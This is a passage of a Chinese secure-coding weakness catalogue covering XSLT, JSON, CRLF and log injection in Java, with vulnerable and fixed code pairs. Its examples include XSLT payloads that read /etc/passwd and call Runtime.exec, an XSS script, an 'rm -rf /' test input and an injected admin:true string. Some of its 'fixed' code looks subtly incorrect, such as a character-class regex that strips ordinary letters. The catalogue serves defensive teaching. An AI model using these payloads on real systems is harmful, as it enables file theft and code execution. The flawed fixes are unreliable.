**别名: **可扩展样式表语言转换中和不当（“XSLT注入”）

**描述**
XSLT注入是一种攻击技术，利用XSLT（Extensible Stylesheet Language Transformations）的功能，通过注入恶意代码来攻击Web应用程序。如果处理未经验证的 XSL 样式表，攻击者可以通过修改XSLT文件中的代码，来执行任意的操作，包括读取敏感数据、修改数据、甚至是控制整个Web应用程序。XSLT injection 会在以下情况中出现：


1. 数据从一个不可信赖的数据源进入程序。2. 数据写入到 XSL 样式表中。3. XSLT处理器启用了危险的扩展功能。
通常，应用程序利用 XSL 样式表来转换 XML 文档的格式。XSL 样式表中包括特殊函数，虽然此类函数能改善转换进程，但如果使用不当也会带来更多漏洞。


- XSLT注入攻击通常发生在Web应用程序中使用XML和XSLT来呈现数据的情况下。攻击者可以在XML数据中注入恶意的XSLT代码，然后将其发送到Web应用程序。当Web应用程序使用XSLT来呈现数据时，更改 XSL 样式表和处理的语义，攻击者的恶意代码会被执行。攻击者可能会更改样式表的输出以启用 XSS (Cross-Site Scripting) 攻击、公开本地文件系统资源的内容或执行任意代码。- 为了防止XSLT注入攻击，开发人员应该遵循安全编码实践，如输入验证、输出编码和安全配置。此外，使用最新版本的XSLT引擎和安全库，以及限制XSLT文件的访问权限也可以提高Web应用程序的安全性。
**语言: **JAVA

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：输入验证设计
  在设计阶段明确 XSLT 脚本的输入验证规则，禁止用户输入中的敏感操作（如 `document()`, `system()`, `file://` 等危险函数或协议）。
- 策略2：最小化功能权限
  限制 XSLT 引擎的功能（如禁用外部实体、禁用扩展函数），仅允许必要的转换操作。
- 策略3：沙箱环境设计
  设计 XSLT 处理器在沙箱环境中运行（如 Java 的 `SecurityManager`），限制文件系统或网络访问。

**编码**
- 策略1：静态模板优先
  避免动态生成 XSLT 脚本，优先使用预定义的静态模板。
- 策略2：参数化构造
  使用安全的 API 传递参数（如 Java 的 `Transformer.setParameter()`），而非字符串拼接（如 `String xslt = "<xsl:value-of select='" + userInput + "'/>"`）。
- 策略3：禁用危险功能
  显式关闭 XSLT 处理器的危险功能（如禁用外部实体、禁用脚本执行）：
  ```java
  TransformerFactory factory = TransformerFactory.newInstance();
  factory.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true);
  ```

**开发者测试**
- 策略1：注入测试用例
  编写测试用例模拟 XSLT 注入（如输入 `document('file:///etc/passwd') 或 system('rm -rf /')`），验证是否被拦截。
- 策略2：功能覆盖测试
  确保所有动态 XSLT 生成路径均经过安全处理。

**代码Review**
- 策略1：动态脚本审查
  检查代码中是否存在动态拼接 XSLT 的逻辑（如 `String.format("<xsl:copy-of select='%s'/>", input)`）。
- 策略2：安全配置验证
  确认 XSLT 处理器已禁用危险功能（如 `FEATURE_SECURE_PROCESSING`）。
- 策略3：上下文输出检查
  确保 XSLT 输出结果经过编码（如 HTML 转义），防止二次注入。

**编译构建**
- 策略1：自动化构建工具
  集成安全检查，如Jenkins运行静态分析工具，clouddragon、libing、fuxi流水线。
- 策略2：集成安全插件
  在构建过程中集成安全插件（如CodeCheck平台扫描代码），自动检查代码中的安全漏洞。
- 策略3：依赖管理
  检查第三方库，及时更新以修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。
- 策略4：安全配置
  在构建时配置安全设置，如编译选项，确保代码安全。
- 策略5：编译警告
  配置编译器警告，提醒开发者潜在的不安全代码模式。

**代码检查**
- 策略1：静态代码分析
  使用工具如CodeCheck平台扫描代码，识别潜在风险。
- 策略2：动态分析
  运行时监控，检测异常行为。示例：使用SecFuzz进行扫描。
- 策略3：依赖库检查
  确保使用的相关库是最新版本，修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。

**集成测试**
- 策略1：渗透测试
  在集成测试阶段，进行渗透测试，确保系统能够有效防御。示例：利用burpsuit进行抓包模拟攻击。
- 策略2：自动化安全测试
  使用自动化工具进行全面的安全测试，确保所有模块和接口都经过严格的安全验证。示例：使用工具如Selenium模拟攻击，测试系统安全性。
- 策略3：日志监控
  配置日志系统，监控和日志记录，及时发现潜在问题。

**示例**
**案例1: 通过开启secure-processing防护XSLT注入**
**语言: **JAVA

**描述**
XSLT是一种样式转换标记语言，可以将XML数据转换为另外的XML或其他格式，如HTML网页，纯文字。因为XSLT的功能十分强大，可以导致任意代码执行，当使用TransformerFactory转换XML格式数据的时候，需要添加安全策略禁止不安全的XSLT代码执行。

**反例**
```java
// transformer of StreamSource without setFeature
public static void XsltTrans(String src, String dst, String xslt) {
    TransformerFactory tf = TransformerFactory.newInstance();
    tf.setAttribute(XMLConstants.ACCESS_EXTERNAL_DTD, "");
    tf.setAttribute(XMLConstants.ACCESS_EXTERNAL_STYLESHEET, "");
    try {
        // 获取转换器对象实例
        /* 【POTENTIAL FLAW】XSLT是一种样式转换标记语言，可以将XML数据档转换为另外的XML或其它格式，
         * 如HTML网页，纯文字。因为XSLT的功能十分强大，可以导致任意代码执行，
         * 当使用TransformerFactory转换XML格式数据的时候，需要添加安全策略禁止不安全的XSLT代码执行。
         */
        Transformer transformer = tf.newTransformer(new StreamSource(xslt));

        // 进行转换
        transformer.transform(new StreamSource(src), new StreamResult(new FileOutputStream(dst)));
    } catch (Exception e) {
        LOGGER.error(e.getMessage());
    }
}
```

**正例**
```java
//create transformer after executing setFeature
public static void XsltTrans(String src, String dst, String xslt) {
    TransformerFactory tf = TransformerFactory.newInstance();
    tf.setAttribute(XMLConstants.ACCESS_EXTERNAL_DTD, "");
    tf.setAttribute(XMLConstants.ACCESS_EXTERNAL_STYLESHEET, "");
    try {

        // 【GOOD】转换器工厂设置黑名单，禁用一些不安全的方法，类似XXE防护
        tf.setFeature("http://javax.xml.XMLConstants/feature/secure-processing", true);

        // 获取转换器对象实例
        Transformer transformer = tf.newTransformer(new StreamSource(xslt));

        // 进行转换
        transformer.transform(new StreamSource(src), new StreamResult(new FileOutputStream(dst)));
    } catch (Exception e) {
        LOGGER.error(e.getMessage());
    }
}
```

**修复建议**
- 使用TransformerFactory对xml进行格式转换操作时，要开启其安全防护策略。

**案例2: 处理未经验证的XSL样式表导致XSLT注入**
**语言: **JAVA

**描述**
如果处理未经验证的 XSL 样式表，则可能会使攻击者能够更改生成的 XML 的结构和内容、在文件系统中加入任意文件或执行任意代码。

**案例分析**
当攻击者将标识的 XSL 传递到 XSTL 处理器时，下列代码会导致三种不同的漏洞利用：
1. 在处理 XSL 样式表时，`<script>` 会进入受害者的浏览器，从而能够实施 `cross-site scripting` 攻击。
```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
<script>alert(123)</script>
</xsl:template>
</xsl:stylesheet>
```
2. 读取服务器文件系统中的任意文件： XSL 样式表将返回 `/etc/passwd` 文件的内容。
```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
<xsl:copy-of select="document('/etc/passwd')"/>
</xsl:template>
</xsl:stylesheet>
```
3. 执行任意 Java 代码：XSLT 处理器如果不禁用，能将本机 Java 语言方法暴露为 XSLT 函数。样式表将在服务器上执行 `ls` 命令。
```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime" xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object">
<xsl:template match="/">
<xsl:variable name="rtobject" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtobject,'ls')"/>
<xsl:variable name="processString" select="ob:toString($process)"/>
<xsl:value-of select="$processString"/>
</xsl:template>
</xsl:stylesheet>
```

**反例**
```java
InputStream xmlInputStream = Utils.getFromURL(request.getParameter("xmlurl"));
InputStream xsltInputStream = Utils.getFromURL(request.getParameter("xslurl"));

// 创建 Source 对象
Source xmlSource = new StreamSource(xmlInputStream);
Source xsltSource = new StreamSource(xsltInputStream);

// 创建TransformerFactory
TransformerFactory transFact = TransformerFactory.newInstance();

// 创建 Transformer
Transformer trans = transFact.newTransformer(xsltSource);

// 执行转换
Result result = new StreamResult(System.out);
trans.transform(xmlSource, result);
```

**正例**
```java
public class XSLTProcessor {
    // 定义允许的 URL 白名单模式（例如，只允许特定的域名或路径）
    private static final Pattern ALLOWED_URL_PATTERN = Pattern.compile("^https?://example\\.com/.*$");

    public void processXML(String xmlUrlParam, String xslUrlParam) throws Exception {
        // 验证 URL 参数是否符合预期格式
        if (!isUrlValid(xmlUrlParam) || !isUrlValid(xslUrlParam)) {
            throw new IllegalArgumentException("Invalid URL format");
        }

        // 限制资源访问范围（仅允许访问白名单内的 URL）
        URL xmlUrl = new URL(xmlUrlParam);
        URL xsltUrl = new URL(xslUrlParam);

        // 使用安全的 URLClassLoader 加载资源
        ClassLoader safeLoader = new URLClassLoader(new URL[]{xmlUrl, xsltUrl});
        InputStream xmlInputStream = safeLoader.getResourceAsStream(xmlUrl.getPath());
        InputStream xsltInputStream = safeLoader.getResourceAsStream(xsltUrl.getPath());

        // 创建 Source 对象
        Source xmlSource = new StreamSource(xmlInputStream);
        Source xsltSource = new StreamSource(xsltInputStream);

        // 使用安全的 TransformerFactory 配置
        TransformerFactory transFact = TransformerFactory.newInstance();
        // 禁用危险的 XSLT 特性（如外部实体、脚本执行等）
        transFact.setFeature("http://xml.org/sax/features/allow-external-dtd", false);
        transFact.setFeature("http://xml.org/sax/features/allow-external-schema", false);
        transFact.setFeature("http://xml.org/sax/features/allow-external-parser", false);
        transFact.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
        transFact.setFeature("http://xml.org/sax/features/namespace-prefixes", true);
        // 创建 Transformer
        Transformer trans = transFact.newTransformer(xsltSource);

        // 执行转换
        Result result = new StreamResult(System.out);
        trans.transform(xmlSource, result);
    }

    // 验证 URL 是否符合预期格式
    private boolean isUrlValid(String url) {
        return ALLOWED_URL_PATTERN.matcher(url).matches();
    }
}
```

**修复建议**
- 参数验证：在处理用户输入的 `xmlurl` 和 `xslurl` 参数之前，必须对这些参数进行严格的格式验证。例如，使用正则表达式限制 URL 的格式，确保它们只指向预期的资源。示例中使用了 `ALLOWED_URL_PATTERN` 来限制 URL 的格式，只允许特定的域名或路径。
- 禁用危险的 XSLT 特性：使用 `TransformerFactory` 时，禁用可能导致安全问题的特性，例如：`allow-external-dtd`：防止加载外部 DTD。`allow-external-schema`：防止加载外部模式。`allow-external-parser`：防止使用外部解析器。`disallow-doctype-decl`：防止文档类型声明。这些设置可以有效防止通过 XSLT 注入恶意代码。
- 限制资源访问：使用 `URLClassLoader` 限制资源访问范围，确保 XML 和 XSLT 文件只能从白名单内的 URL 加载。这可以防止攻击者通过恶意 URL 访问敏感资源或执行任意代码。

#### CWD-1084-000 XSLT注入

#### CWD-1084-001 【XSLT】使用javax.xml.transform.Transformer下的transform方法对xml进行格式转换时，xslt文件受控(上游文件或者动态构造注入)，造成的代码执行漏洞

---

# CWD-1085 JSON注入

**别名: **JSON劫持；JSON中的数据中和不当（“JSON注入”）

**描述**
JSON注入是一种安全漏洞，当应用程序在构造JSON数据时未对用户输入进行适当处理，攻击者可以注入恶意内容来破坏JSON结构或执行恶意操作。应对输入数据进行严格的验证和过滤，使用安全的JSON解析器和避免将敏感数据存储在JSON中。常见场景：


- 动态JSON构造：应用程序拼接用户输入来构造JSON响应。- JSONP回调：未验证JSONP回调函数名。- 存储的JSON数据：用户提供的JSON数据被存储后未经处理直接使用。
**语言: **JAVA

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：输入输出规范
  设计时明确JSON数据的输入/输出格式（如Schema），强制所有接口遵循严格的数据类型和结构（如使用JSON Schema验证）。
- 策略2：安全库选型
  优先选择内置防注入机制的库（如Java的`Jackson`、Python的`json.dumps`），避免直接拼接JSON字符串。
- 策略3：最小化权限
  设计接口时限制JSON数据的嵌套深度、键值对数量等，避免过度复杂的数据结构。

**编码**
- 策略1：转义特殊字符
  对用户输入中的特殊字符（如`"`, `\`, `<`, `>`）进行转义（如`\u0022`代替引号）。
- 策略2：参数化构造JSON
  使用库函数（如`JSON.stringify()`）而非手动拼接，例如：
  ```javascript
  // 错误方式：直接拼接
  let badJSON = `{"user": "${userInput}"}`;  
  // 正确方式：使用库函数
  let safeJSON = JSON.stringify({user: userInput});  
  ```
- 策略3：禁用`eval()`
  绝对避免通过`eval()`或`Function()`解析JSON数据。

**开发者测试**
- 策略1：注入用例测试
  在单元测试中模拟攻击数据（如{"malicious":"\""}或嵌套过深的JSON），验证系统是否正确处理。
- 策略2：边界测试
  测试超长字符串、非法Unicode字符等边界情况。
- 策略3：自动化工具
  使用OWASP ZAP或Burp Suite扫描JSON接口的注入漏洞。

**代码Review**
- 策略1：检查手动拼接
  重点审查代码中是否存在字符串拼接生成JSON的逻辑（如 `"{" + key + ":" + value + "}"` ）。
- 策略2：验证逻辑
  确认所有JSON解析操作均通过安全库（如`org.json`而非`eval`）。
- 策略3：上下文感知
  检查动态JSON键名（如`input[key] = value`）是否经过过滤。

**编译构建**
- 策略1：自动化构建工具
  集成安全检查，如Jenkins运行静态分析工具，clouddragon、libing、fuxi流水线。
- 策略2：集成安全插件
  在构建过程中集成安全插件（如CodeCheck平台扫描代码），自动检查代码中的安全漏洞。
- 策略3：依赖管理
  检查第三方库，及时更新以修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。
- 策略4：安全配置
  在构建时配置安全设置，如编译选项，确保代码安全。
- 策略5：编译警告
  配置编译器警告，提醒开发者潜在的不安全代码模式。

**代码检查**
- 策略1：静态代码分析
  使用工具如CodeCheck平台扫描代码，识别潜在风险。
- 策略2：动态分析
  运行时监控，检测异常行为。示例：使用SecFuzz进行扫描。
- 策略3：依赖库检查
  确保使用的相关库是最新版本，修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。

**集成测试**
- 策略1：渗透测试
  在集成测试阶段，进行渗透测试，确保系统能够有效防御。示例：利用burpsuit进行抓包模拟攻击。
- 策略2：自动化安全测试
  使用自动化工具进行全面的安全测试，确保所有模块和接口都经过严格的安全验证。示例：使用工具如Selenium模拟攻击，测试系统安全性。
- 策略3：日志监控
  配置日志系统，监控和日志记录，及时发现潜在问题。

**示例**
**案例1: 未对用户输入进行处理导致JSON结构被破坏**
**语言: **JAVA

**描述**
一个Java Web应用中存在的JSON注入漏洞。该应用允许用户提交个人资料信息，后端将用户输入直接拼接成JSON字符串返回给前端或存储到数据库。未对用户输入进行适当处理可能导致JSON结构被破坏、XSS攻击或数据篡改。

**案例分析**
- `getUserProfileJson`方法中直接拼接用户控制的bio字段到JSON字符串。
- `parseUserInput`方法中直接解析未经验证的用户输入JSON。
当bio输入为：`\"}, \"admin\":true, \"xss\":\"<script>alert(1)</script>`时，生成的JSON变为：
```json
{"username":"test", "bio":"\"}, "admin":true, "xss":"<script>alert(1)</script>"}
```
- 这可能导致：JSON结构被破坏，注入额外的属性(如admin:true)，存储XSS攻击载荷。

**反例**
```java
import com.fasterxml.jackson.databind.ObjectMapper;
import java.util.HashMap;
import java.util.Map;

public class UserProfileService {
    
    private static final ObjectMapper mapper = new ObjectMapper();
    
    // 有风险的JSON构造方式 - 直接拼接用户输入
    public String getUserProfileJson(String username, String bio) {
        // 直接拼接用户输入的bio到JSON字符串
        String json = "{\"username\":\"" + username + 
                      "\",\"bio\":\"" + bio + "\"}";
        return json;
    }
    
    // 有风险的JSON解析方式 - 直接解析未验证的JSON输入
    public Map<String, Object> parseUserInput(String userInput) throws Exception {
        // 直接解析未经验证的用户输入
        return mapper.readValue(userInput, HashMap.class);
    }
}
```

**正例**
```java
import com.fasterxml.jackson.databind.ObjectMapper;
import java.util.HashMap;
import java.util.Map;
import org.apache.commons.text.StringEscapeUtils;

public class SecureUserProfileService {
    
    private static final ObjectMapper mapper = new ObjectMapper();
    
    // 安全的JSON构造方式 - 使用对象映射
    public String getUserProfileJson(String username, String bio) throws Exception {
        Map<String, String> userProfile = new HashMap<>();
        userProfile.put("username", username);
        // 对用户输入进行HTML转义
        userProfile.put("bio", StringEscapeUtils.escapeHtml4(bio));
        return mapper.writeValueAsString(userProfile);
    }
    
    // 安全的JSON解析方式 - 使用严格的对象模型
    public UserProfile parseUserInput(String userInput) throws Exception {
        // 使用具体的POJO类而非通用的Map
        UserProfile profile = mapper.readValue(userInput, UserProfile.class);
        
        // 验证必要字段
        if (profile.getUsername() == null || profile.getUsername().isEmpty()) {
            throw new IllegalArgumentException("Username is required");
        }
        
        // 对字段进行清理
        profile.setBio(StringEscapeUtils.escapeHtml4(profile.getBio()));
        
        return profile;
    }
    
    // 定义具体的用户资料类
    public static class UserProfile {
        private String username;
        private String bio;
        
        // getters和setters
        public String getUsername() { return username; }
        public void setUsername(String username) { this.username = username; }
        public String getBio() { return bio; }
        public void setBio(String bio) { this.bio = bio; }
    }
}
```

**修复建议**
- 使用对象映射代替字符串拼接：使用 `Jackson/Gson` 等库的 `writeValueAsString` 方法生成JSON，避免手动拼接JSON字符串。
- 输入验证与清理：对用户输入进行HTML转义(使用 `StringEscapeUtils` )，验证必填字段和格式。
- 严格的对象模型：使用具体的POJO类而非通用的Map接收JSON数据，定义明确的输入数据结构。
- 内容安全策略：设置适当的Content-Type头( `application/json` )，实现CSRF保护。

#### CWD-1085-000 JSON注入

---

# CWD-1086 CRLF注入

**别名: **CRLF序列中和不当；未能清理CRLF序列（“CRLF注入”）

**描述**
CRLF的含义是：回车（carriage return）、换行（line feed）。`CR`是回车（`%0d`或`\r`），`LF`是换行（`%0a`或`\n`）。不正确的解析或过滤回车和换行字符时导致的漏洞。CRLF注入漏洞的原因是使用CRLF（回车换行符）作为特殊元素，例如用于分隔行或记录，但不会中和或错误中和来自输入的CRLF序列。


- 通过URL相关参数中的CRLF拆分HTTP响应。例如：HTTP协议中使用CRLF（回车换行）作为消息头和消息体之间的分隔符，攻击者可以在HTTP响应中注入非法的CRLF字符，从而篡改HTTP消息头，欺骗浏览器或服务器，控制HTTP响应，实现攻击。如：
  1. HTTP头注入：攻击者可以在HTTP头中注入恶意代码，从而欺骗Web服务器执行攻击者的指令。  2. HTTP响应欺骗：攻击者可以篡改HTTP响应，从而欺骗用户访问恶意网站或下载恶意文件。  3. 会话劫持：攻击者可以通过CRLF注入攻击，修改HTTP响应头中的Cookie，从而劫持用户会话。- CRLF注入可以使用电子邮件地址或名称进行垃圾邮件代理（添加邮件头）。- 使用CRLF注入注入带有虚假时间戳的虚假日志条目。
**语言: **JAVA

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：设计完善的防御过滤机制
  对一切外来参数进行充分的过滤防御；对引入参数也需进行充分过滤和校验。
- 策略2：最小权限原则
  确保执行命令的用户或进程具有最小的权限，避免攻击者通过命令注入获得高权限。如涉及sudo配置命令和脚本，禁止在命令参数中的使用通配符。配置服务器和应用程序，即使发生注入攻击，也使其无法执行高风险操作。
- 策略3：配置错误处理机制
  避免在错误信息中泄露敏感信息，隐藏技术细节。
- 策略4：减少攻击面
  对于将用于生成要执行的命令的任何数据，尽可能让这些数据处于外部控制之外。例如，在Web应用程序中，需要在会话的状态中本地存储数据，而不是在隐藏的表单字段中将数据发送到客户端。
- 策略5：监控和日志记录
  记录所有敏感操作，便于审计和检测异常行为。
- 策略6：在服务端执行安全性检查
  在客户端和服务器端都执行安全性检查。如果仅在客户端执行安全性检查，攻击者可以通过在执行检查后修改值来绕过客户端检查，或者通过更改客户端以完全删除客户端检查。然后，这些修改后的值将被提交到服务器。
- 策略7：库或框架
  使用经过审核的库或框架，不允许此弱点发生，或提供更容易避免此弱点的构造。例如，使用`Huawei WSF安全框架`。

**编码**
- 策略1：输入验证 `推荐`
  1. 在验证输入之前，应将输入解码并规范化为应用程序当前的内部表示。
     ```java
     // Java示例
     String canonicalPath = new File(userInput).getCanonicalPath();
     ```
     - C语言中 `realpath()`
     - Java中 `getCanonicalPath()`
     - ASP.NET中 `GetFullPath()`
     - Perl中 `realpath()`或`abs_path()`
     - PHP中 `realpath()`
  2. 避免使用CRLF作为特殊序列。或在用户控制的输入中适当过滤或引用CRLF序列。
  3. 假设所有输入都是恶意的。使用“接受已知良好”（`白名单`）的输入验证策略，即使用严格符合规范的可接受输入列表。拒绝任何不严格符合规范的输入，或者将其转换为符合规范的东西。
  4. 执行输入验证时，请考虑所有可能相关的属性，包括长度、输入类型、可接受值的完整范围、缺失或额外输入、语法、相关字段的一致性以及对业务规则的符合性。
  5. 不要完全依赖查找恶意或格式错误（`黑名单`）的输入。这很可能会错过至少一个不需要的输入，尤其是当代码的环境发生变化时。这可以给攻击者提供足够的空间来绕过预期的验证。但是，denylists（`黑名单`）对于检测潜在的攻击或确定哪些输入格式错误，以至于应该直接拒绝它们非常有用。
- 策略2：输出编码
  使用并指定可由读取输出的下游组件处理的输出编码。常见的编码包括`ISO-8859-1`、`UTF-8`。当未指定编码时，下游组件可能会选择不同的编码，要么通过假设默认编码，要么自动推断使用的是哪种编码，这可能是错误的。当编码不一致时，下游组件可能会将某些字符或字节序列视为特殊，即使它们在原始编码中并不特殊。然后，攻击者可能能够利用这种差异进行注入攻击；他们甚至可能能够绕过保护机制，假设原始编码也被下游组件使用。

**开发者测试**
- 策略1：单元测试
  测试各种输入情况，特别是边界条件和异常输入测试代码的健壮性。

**代码Review**
- 策略1：代码走读
  团队成员检查代码，特别是处理输入和输出的部分，确保每处都经过验证和转义。
- 策略2：输入验证检查
  确保所有外部输入都经过严格的验证和转义，防止恶意输入。
- 策略3：安全框架使用检查
  确保安全框架正确使用，没有误用导致漏洞。
  - 例如：使用`Huawei WSF安全框架`，检查框架配置是否规范等。

**编译构建**
- 策略1：自动化构建工具
  集成安全检查，如Jenkins运行静态分析工具，clouddragon、libing、fuxi流水线。
- 策略2：集成安全插件
  在构建过程中集成安全插件（如CodeCheck平台扫描代码），自动检查代码中的安全漏洞。
- 策略3：依赖管理
  检查第三方库，及时更新以修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。
- 策略4：安全配置
  在构建时配置安全设置，如编译选项，确保代码安全。
- 策略5：编译警告
  配置编译器警告，提醒开发者潜在的不安全代码模式。

**代码检查**
- 策略1：静态代码分析
  使用工具如CodeCheck平台扫描代码，识别潜在风险。
- 策略2：动态分析
  运行时监控，检测异常行为。示例：使用SecFuzz进行扫描。
- 策略3：依赖库检查
  确保使用的相关库是最新版本，修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。

**集成测试**
- 策略1：渗透测试
  在集成测试阶段，进行渗透测试，确保系统能够有效防御。示例：利用burpsuit进行抓包模拟攻击。
- 策略2：自动化安全测试
  使用自动化工具进行全面的安全测试，确保所有模块和接口都经过严格的安全验证。示例：使用工具如Selenium模拟攻击，测试系统安全性。
- 策略3：日志监控
  配置日志系统，监控和日志记录，及时发现潜在问题。

**示例**
**案例1: 日志未考虑用户输入数据中的CRLF字符导致CRLF注入**
**语言: **JAVA

**描述**
未检查最终写入日志消息的用户输入数据中的CRLF字符，则攻击者可能伪造日志文件中的条目。

**案例分析**
下列应用程序代码将外部用户输入的数据直接拼接至日志文件中。如果用户为 `streetAddress` 提交字符串 `twenty-one` ，则会记录以下条目：
```log
[INFO] - User's street address: twenty-one
```
然而，如果攻击者提交字符串 `twenty-one%0a%0aINFO:+User+logged+out%3A+badguy` ，则日志中会记录以下条目：
```log
[INFO] - User's street address: twenty-one
[INFO] - User logged out: badguy
```
显然，攻击者可以使用同样的机制插入任意日志条目。

**反例**
```java
logger.info("User's street address: " + request.getParameter("streetAddress"));
```

**正例**
```java
String streetAddress = request.getParameter("streetAddress");
if (streetAddress != null) {
    // `CR`是回车（`%0d`或`\r`），`LF`是换行（`%0a`或`\n`）
    streetAddress = streetAddress.replaceAll("[\r|%0d|\n|%0a]", ""); 
}
logger.info("User's street address: " + streetAddress);
```

**修复建议**
- 输入过滤：在处理用户输入时，始终检查并移除潜在的危险字符，如 `CR`是回车（`%0d`或`\r`），`LF`是换行（`%0a`或`\n`）。
- 使用安全的API：考虑使用参数化的日志记录方法，如 `logger.info("User's street address: {}", streetAddress)`，以减少注入风险。
- 输入验证：使用正则表达式或其他验证机制，确保输入符合预期格式，例如只允许字母、数字和特定符号。

#### CWD-1086-000 CRLF注入

#### CWD-1086-001 HTTP请求头CRLF序列中和不当（“HTTP请求/响应拆分”）

#### CWD-1086-002 SMTP请求头CRLF序列中和不当（“SMTP请求/响应拆分”）

#### CWD-1086-003 日志CRLF序列中和不当（“日志拆分”）

**业界缺陷**

- [CWE-93: Improper Neutralization of CRLF Sequences ('CRLF Injection')](https://cwe.mitre.org/data/definitions/93.html)
---

# CWD-1089 日志输出中和不当（“日志注入”）

**别名: **日志伪造；日志注入-篡改-伪造；Web服务器日志篡改；审计日志篡改；未能清理日志输出

**描述**
日志注入是指从外部输入日志消息，但在将消息写入日志文件时，不会中和或不正确中和特殊元素。攻击者通过将`CRLF`（回车和换行）字符插入到Web应用程序的日志文件中，添加其他日志条目或修改日志条目的解析方式，通过篡改应用程序的日志记录功能，向应用程序的日志中注入恶意代码或数据，从而导致应用程序行为异常或崩溃。攻击者向应用程序提供数据，阻碍或误导日志文件的解释。


- `CR`是回车（`%0d`或`\r`），`LF`是换行（`%0a`或`\n`），水平制表符（`%09`或`\t`），垂直制表符（`%0b`或`\u000B`），退格符（`%08`或`\b`），换页（`%0c`或`\f`），删除符（`%7f`或`\u007F`）。- 攻击者通过向应用程序提供包含适当字符的输入，在日志文件中插入虚假条目。伪造或以其他方式损坏的日志文件可用于掩盖攻击者的踪迹，可能通过扭曲统计数据，甚至暗示另一方实施恶意行为。- 如果日志文件是自动处理的，攻击者可以通过破坏文件的格式或注入意外字符使文件不可用。攻击者可以向日志文件中注入代码或其他命令，并利用日志处理实用程序中的漏洞。
**语言: **JAVA,GO,JAVASCRIPT,TYPESCRIPT

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：设计完善的防御过滤机制
  对一切外来参数进行充分的过滤防御；对引入参数也需进行充分过滤和校验。
- 策略2：最小权限原则
  确保执行命令的用户或进程具有最小的权限，避免攻击者通过命令注入获得高权限。如涉及sudo配置命令和脚本，禁止在命令参数中的使用通配符。配置服务器和应用程序，即使发生注入攻击，也使其无法执行高风险操作。
- 策略3：配置错误处理机制
  避免在错误信息中泄露敏感信息，隐藏技术细节。
- 策略4：减少攻击面
  对于将用于生成要执行的命令的任何数据，尽可能让这些数据处于外部控制之外。例如，在Web应用程序中，需要在会话的状态中本地存储数据，而不是在隐藏的表单字段中将数据发送到客户端。
- 策略5：监控和日志记录
  记录所有敏感操作，便于审计和检测异常行为。
- 策略6：在服务端执行安全性检查
  在客户端和服务器端都执行安全性检查。如果仅在客户端执行安全性检查，攻击者可以通过在执行检查后修改值来绕过客户端检查，或者通过更改客户端以完全删除客户端检查。然后，这些修改后的值将被提交到服务器。
- 策略7：库或框架
  使用经过审核的库或框架，不允许此弱点发生，或提供更容易避免此弱点的构造。例如，使用`Huawei WSF安全框架`。

**编码**
- 策略1：输入验证 `推荐`
  1. 在验证输入之前，应将输入解码并规范化为应用程序当前的内部表示。
     ```java
     // Java示例
     String canonicalPath = new File(userInput).getCanonicalPath();
     ```
     - C语言中 `realpath()`
     - Java中 `getCanonicalPath()`
     - ASP.NET中 `GetFullPath()`
     - Perl中 `realpath()`或`abs_path()`
     - PHP中 `realpath()`
  2. 非常小心地构造HTTP标头，避免使用未经验证的输入数据。
  3. 假设所有输入都是恶意的。使用“接受已知良好”（`白名单`）的输入验证策略，即使用严格符合规范的可接受输入列表。拒绝任何不严格符合规范的输入，或者将其转换为符合规范的东西。
  4. 执行输入验证时，请考虑所有可能相关的属性，包括长度、输入类型、可接受值的完整范围、缺失或额外输入、语法、相关字段的一致性以及对业务规则的符合性。
  5. 不要完全依赖查找恶意或格式错误（`黑名单`）的输入。这很可能会错过至少一个不需要的输入，尤其是当代码的环境发生变化时。这可以给攻击者提供足够的空间来绕过预期的验证。但是，denylists（`黑名单`）对于检测潜在的攻击或确定哪些输入格式错误，以至于应该直接拒绝它们非常有用。
- 策略2：输出编码
  使用并指定可由读取输出的下游组件处理的输出编码。常见的编码包括`ISO-8859-1`、`UTF-8`。当未指定编码时，下游组件可能会选择不同的编码，要么通过假设默认编码，要么自动推断使用的是哪种编码，这可能是错误的。当编码不一致时，下游组件可能会将某些字符或字节序列视为特殊，即使它们在原始编码中并不特殊。然后，攻击者可能能够利用这种差异进行注入攻击；他们甚至可能能够绕过保护机制，假设原始编码也被下游组件使用。

**开发者测试**
- 策略1：单元测试
  测试各种输入情况，特别是边界条件和异常输入测试代码的健壮性。

**代码Review**
- 策略1：代码走读
  团队成员检查代码，特别是处理输入和输出的部分，确保每处都经过验证和转义。
- 策略2：输入验证检查
  确保所有外部输入都经过严格的验证和转义，防止恶意输入。
- 策略3：安全框架使用检查
  确保安全框架正确使用，没有误用导致漏洞。
  - 例如：使用`Huawei WSF安全框架`，检查框架配置是否规范等。

**编译构建**
- 策略1：自动化构建工具
  集成安全检查，如Jenkins运行静态分析工具，clouddragon、libing、fuxi流水线。
- 策略2：集成安全插件
  在构建过程中集成安全插件（如CodeCheck平台扫描代码），自动检查代码中的安全漏洞。
- 策略3：依赖管理
  检查第三方库，及时更新以修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。
- 策略4：安全配置
  在构建时配置安全设置，如编译选项，确保代码安全。
- 策略5：编译警告
  配置编译器警告，提醒开发者潜在的不安全代码模式。

**代码检查**
- 策略1：静态代码分析
